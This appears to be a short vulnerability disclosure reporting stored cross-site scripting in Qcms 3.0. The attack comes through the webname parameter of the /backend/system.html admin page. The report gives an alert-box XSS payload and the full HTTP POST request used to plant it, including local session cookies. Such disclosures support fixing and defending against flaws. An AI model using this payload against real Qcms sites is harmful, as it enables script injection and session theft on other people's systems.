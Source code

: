 # Qcms version 3.0 has xss via the webname parameter to the /backend/system.html URI

there is a xss in admin page `/backend/system.html` webname parameter.

set xss payload `<svg/onload=alert(0)>` to the webname parameter and save the edit then visite site `/index.php`,there is a alert box to show 0.

![](1.png)

	POST /backend/system.html HTTP/1.1
	Host: localhost
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Referer: http://localhost/backend/system.html
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 40
	Cookie: PHPSESSID=8sqolv5pb9kfljuh5g0b36tus6; admin_id=1; admin_level=1; admin_name=admin; admin_secret=f63fad88029cf8f923c35fafe1c6b5d1; UM_distinctid=162181544af9-0ca6b89389a11d8-4c322172-1fa400-162181544b04ce;
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	webname=%3Csvg%2Fonload%3Dalert%280%29%3

![](2.png)
